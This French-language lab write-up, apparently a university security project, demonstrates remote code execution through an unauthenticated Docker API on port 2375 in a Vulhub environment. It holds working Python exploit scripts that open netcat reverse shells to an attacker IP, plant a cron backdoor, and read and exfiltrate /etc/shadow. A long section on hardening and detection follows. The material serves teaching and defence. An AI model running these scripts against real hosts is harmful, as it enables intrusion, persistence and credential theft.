

# Docker Unauthorized RCE - Documentation Technique

## Architecture Docker

**Docker** est une solution de type *PaaS* qui permet de livrer et d’exécuter des logiciels à l’intérieur de **conteneurs**.
Un conteneur embarque tout ce qu’il faut pour faire tourner une application : code, dépendances, librairies, configuration.

**Les 3 piliers de l’architecture Docker :**

1. **Docker CLI = ton terminal + la commande docker (`docker run`, `docker ps`, etc.)** 

Il **ne gère rien lui-même**, il fait juste **envoyer des instructions** au Docker API : 

- en local via un socket Unix, 
- ou à distance via le port 2375 si celui-ci est ouvert).

2. **Docker API** : la passerelle entre le CLI et le Daemon (une interface REST) 
3. Le **Docker Daemon (dockerd)**  :  c’est le moteur qui s’occupe réellement de :
   - lancer les conteneurs,
   - les arrêter,
   - gérer les volumes,
   - télécharger les images,
   - orchestrer toutes les opérations Docker.



------

## Vulnérabilités Identifiées

### 1. Docker Daemon exposé sur port 2375 (HTTP sans TLS)

**Impact :** Accès root à distance sans authentification

Le port 2375 correspond à l'API Docker non sécurisée. Toute personne pouvant s'y connecter obtient les mêmes privilèges qu'un administrateur avec accès root complet à la machine.

### 2. Container en mode `privileged: true`

**Impact :** Escalade de privilèges et contrôle de l'hôte

Ce mode donne au conteneur :

- Accès quasi total aux périphériques de l'hôte
- Manipulation des namespaces
- Chargement de modules kernel
- Accès aux cgroups

**Résumé des risques :**

| Problème                     | Impact                                                   |
| ---------------------------- | -------------------------------------------------------- |
| Docker API sur 2375 en clair | Accès remote total → root sur la machine                 |
| `privileged = true`          | Le conteneur peut s'échapper et contrôler l'hôte         |
| Les deux ensemble            | Compromission complète, immédiate, sans exploit complexe |

------

## Capacités de l'Attaquant

Avec accès à l'API non sécurisée, l'attaquant peut :

- Créer et modifier des conteneurs
- Exécuter des commandes arbitraires
- Monter des volumes du système hôte
- Manipuler les configurations Docker
- Obtenir un shell avec privilèges root

**Conséquences potentielles :**

- Remote Code Execution (RCE) sur la machine hôte
- Vol ou corruption de données via volumes montés
- Évasion du conteneur et accès complet au système
- Compromission totale du serveur

------

## Configuration de l'Environnement Vulnérable

### docker-compose.yml

```yaml
services:
  docker:
    build: .
    ports:
      - "2375:2375"
    privileged: true
```

Crée un service Docker-in-Docker exposé et totalement permissif.

### docker-entrypoint.sh

Configure le daemon pour écouter sur :

- Socket Unix local : `unix:///var/run/docker.sock`
- TCP non sécurisé : `tcp://0.0.0.0:2375`
- Démarre cron pour l'exploitation

### Dockerfile

```dockerfile
FROM vulhub/docker:28.0.1
COPY docker-entrypoint.sh /
ENTRYPOINT [ "/docker-entrypoint.sh" ]
```

Utilise une image Vulhub supportant Docker-in-Docker.

------

## Démonstration de l'Exploitation

**Environnement :**

- Machine cible : 192.168.1.81 (daemon Docker exposé)
- Machine attaquant : 192.168.1.79 (Kali Linux)

### Phase 1 : Reconnaissance

**Vérifier l'exposition du port 2375 :**

```bash
nmap -p 2375 192.168.1.81
curl http://192.168.1.81:2375/version
```

**Énumérer les conteneurs :**

```bash
curl http://192.168.1.81:2375/containers/json
```

### Phase 2 : Exploitation

**Prérequis :**

```bash
pip install docker
```

**Script d'exploitation basique (exploit.py) :**

```python
import docker

IP_CIBLE = '192.168.1.81'
IP_ATTAQUANT = '192.168.1.79'

client = docker.DockerClient(base_url=f'http://{IP_CIBLE}:2375/')

print("[*] Connexion à l'API Docker...")
print(f"[+] Version Docker: {client.version()['Version']}")

print("[*] Création d'un container privilégié...")
container = client.containers.run(
    'alpine:latest',
    f'sh -c "nc {IP_ATTAQUANT} 4444 -e /bin/sh"',
    detach=True,
    remove=True,
    volumes={'/': {'bind': '/host', 'mode': 'rw'}},
    privileged=True
)

print(f"[+] Container créé: {container.id}")
print(f"[*] Reverse shell sur {IP_ATTAQUANT}:4444")
```

**Script avec persistance (exploit_complet.py) :**

```python
import docker
import time

IP_CIBLE = '192.168.1.81'
IP_ATTAQUANT = '192.168.1.79'

client = docker.DockerClient(base_url=f'http://{IP_CIBLE}:2375/')

print("[*] PHASE 1 : Reverse shell immédiat")
try:
    container1 = client.containers.run(
        'alpine:latest',
        f'nc {IP_ATTAQUANT} 4444 -e /bin/sh',
        detach=True,
        remove=True,
        volumes={'/': {'bind': '/host', 'mode': 'rw'}},
        privileged=True
    )
    print(f"[+] Shell immédiat lancé sur port 4444")
except Exception as e:
    print(f"[-] Erreur: {e}")

time.sleep(2)

print("\n[*] PHASE 2 : Backdoor cron persistante")
try:
    container2 = client.containers.run(
        'alpine:latest',
        f'''sh -c "
        echo '* * * * * /usr/bin/nc {IP_ATTAQUANT} 5555 -e /bin/sh 2>&1' > /host/etc/crontabs/root &&
        crond -f -l 2
        "''',
        detach=True,
        remove=False,
        volumes={'/': {'bind': '/host', 'mode': 'rw'}},
        privileged=True,
        name='cron-backdoor'
    )
    print(f"[+] Backdoor installée: {container2.id[:12]}")
    print(f"[*] Shell cron dans max 60s sur port 5555")
except Exception as e:
    print(f"[-] Erreur: {e}")

print("\n[*] Résumé")
print("Port 4444: Shell immédiat")
print("Port 5555: Shell cron (toutes les minutes)")
print("\nListeners:")
print("  Terminal 1: nc -lvnp 4444")
print("  Terminal 2: nc -lvnp 5555")
```

**Exécution :**

Terminal 1 (listener) :

```bash
nc -lvnp 4444
```

Terminal 2 (exploit) :

```bash
python exploit.py
```

### Phase 3 : Validation de l'Accès

Une fois connecté via netcat :

```bash
whoami          # root
hostname        # ID du container
ls /host        # Système de fichiers monté
cat /host/etc/shadow
```

### Phase 4 : Preuve d'Impact

**Installation du client Docker dans le container :**

```bash
apk add --no-cache docker-cli
docker ps
```

**Exfiltration de données :**

```bash
tar -czf /tmp/loot.tar.gz /host/etc/passwd /host/etc/shadow

# Terminal 3 sur Kali
nc -lvnp 5555 > loot.tar.gz

# Dans le shell distant
nc 192.168.1.79 5555 < /tmp/loot.tar.gz
```

**Persistance via cron :**

```bash
echo '* * * * * /usr/bin/nc 192.168.1.79 4444 -e /bin/sh' >> /host/etc/crontabs/root
```

------

## Flux d'Attaque

```
Attaquant (script Python)
    ↓
Connexion au port 2375 exposé
    ↓
Lancement d'un conteneur Alpine privilégié
    ↓
Montage du répertoire / du système hôte
    ↓
Modification de fichiers sensibles (/etc/crontabs/root)
    ↓
Exécution automatique par le système (cron)
    ↓
Compromission complète du système hôte
```

------

## Rapport d'Impact

### Vulnérabilités

1. **Docker API exposée sans authentification (port 2375)**
   - Criticité : CRITIQUE
   - CWE-284 (Improper Access Control)
2. **Container en mode privileged**
   - Criticité : HAUTE
   - Permet l'escalade de privilèges

### Impact Démontré

- RCE (Remote Code Execution) : Exécution de code arbitraire
- Escalade de privilèges : Accès root au système
- Accès aux données sensibles : /etc/passwd, /etc/shadow
- Persistance : Backdoor via cron
- Contrôle total : Manipulation des containers Docker

------

## Mesures de Sécurité (Défense en Profondeur)

### Niveau 1 : Prévention de l'Accès

**Objectif :** Empêcher l'attaquant d'atteindre le Docker Daemon

**Mesures critiques :**

1. **Ne JAMAIS exposer le port 2375**

   ```yaml
   ports:
     - "127.0.0.1:2375:2375"  # Localhost uniquement
   ```

2. **Utiliser SSH pour l'accès distant (recommandé)**

   ```bash
   docker context create \
     --docker host=ssh://user@remote-host \
     my-remote-engine
   ```

   Avantages :

   - Pas d'ouverture de port TCP Docker
   - Chiffrement et authentification native
   - Surface d'attaque minimale

3. **Si TCP obligatoire : TLS avec authentification mutuelle (mTLS)**

   ```bash
   dockerd \
     --tlsverify \
     --tlscacert=ca.pem \
     --tlscert=server-cert.pem \
     --tlskey=server-key.pem \
     -H=0.0.0.0:2376
   ```

   Port sécurisé : **2376** (pas 2375)

4. **Configurer un pare-feu strict**

   ```bash
   # Bloquer le port 2375 depuis l'extérieur
   iptables -A INPUT -p tcp --dport 2375 -s 127.0.0.1 -j ACCEPT
   iptables -A INPUT -p tcp --dport 2375 -j DROP
   
   # Ou avec UFW
   ufw deny 2375/tcp
   ufw allow from X.X.X.X to any port 2376 proto tcp
   ```

5. **Segmentation réseau**

   - Placer Docker dans un VLAN ou sous-réseau isolé
   - Utiliser VPN (WireGuard, Tailscale, ZeroTier)
   - Tunnel SSH forwarding

### Niveau 2 : Limitation de l'Impact

**Objectif :** Réduire les dégâts en cas de compromission

**Mesures systèmes :**

1. **Éviter le mode privileged**

   ```yaml
   privileged: false
   ```

2. **Utiliser des capabilities spécifiques**

   ```yaml
   cap_add:
     - NET_ADMIN  # Uniquement ce qui est nécessaire
   cap_drop:
     - ALL
   ```

3. **Activer les profils de sécurité**

   - **AppArmor** (Ubuntu, Debian)
   - **SELinux** (CentOS, Fedora)
   - **seccomp** (profil par défaut)

4. **User namespaces**

   ```json
   {
     "userns-remap": "default"
   }
   ```

   Empêche qu'un root dans un conteneur = root sur l'hôte

5. **Rootless Docker**

   - Exécuter Docker sans privilèges root
   - Réduit drastiquement l'impact d'une compromission

6. **Limiter les montages sensibles**

   - Interdire l'accès à `/etc`, `/root`, `/var/run/docker.sock`
   - Empêche exactement l'attaque démontrée

7. **Surveillance et audit**

   - auditd
   - journald
   - Falco
   - Monitoring des logs Docker

### Niveau 3 : Détection et Réponse

1. **Monitoring actif**
   - Alertes sur connexions au port 2375
   - Surveillance des conteneurs privilégiés
   - Détection de montages suspects
2. **Mises à jour régulières**
   - Docker Engine
   - Images de base
   - Système hôte

------

## Synthèse de la Défense en Profondeur

| Niveau            | Objectif                                 | Mesures Principales                                       |
| ----------------- | ---------------------------------------- | --------------------------------------------------------- |
| **Réseau**        | Empêcher l'accès au port 2375            | Firewall, pas d'exposition publique, VPN/SSH              |
| **Daemon Docker** | Exiger une authentification              | TLS + certificats, socket Unix uniquement                 |
| **Hôte**          | Réduire l'impact en cas de compromission | Pas de mode privileged, AppArmor/SELinux, user namespaces |
| **Surveillance**  | Détecter les tentatives d'exploitation   | Logs, IDS, monitoring temps réel                          |

------

## Nettoyage Post-Démonstration

```bash
# Arrêter les containers malveillants
docker stop $(docker ps -q)

# Supprimer l'environnement vulnérable
cd ~/projet2_securite_uqac/docker_unauthorized-rce
docker compose down -v

# Nettoyer les images
docker system prune -af
```

------

## Conclusion

L'exposition du Docker Remote API sur le port 2375 sans authentification représente une faille de sécurité critique (CVSS 9.8). Cette vulnérabilité permet à un attaquant d'obtenir un accès root complet au système hôte.

**Principe fondamental :** Ne jamais exposer le port 2375. Utiliser exclusivement le socket Unix local ou SSH pour les accès distants. Si TCP est absolument nécessaire, TLS avec authentification mutuelle (port 2376) est obligatoire.

La défense en profondeur appliquée à plusieurs niveaux (réseau, daemon, hôte) réduit considérablement la surface d'attaque et limite l'impact d'une éventuelle compromission.

**Cette démonstration doit être effectuée uniquement dans un environnement de test isolé avec autorisation explicite.**

------

## Ressources

- Docker Security Documentation: https://docs.docker.com/engine/security/protect-access/
- CVE Details: https://tttang.com/archive/357/
- Vulhub Repository: https://github.com/vulhub/vulhub/tree/master/docker/unauthorized-rce
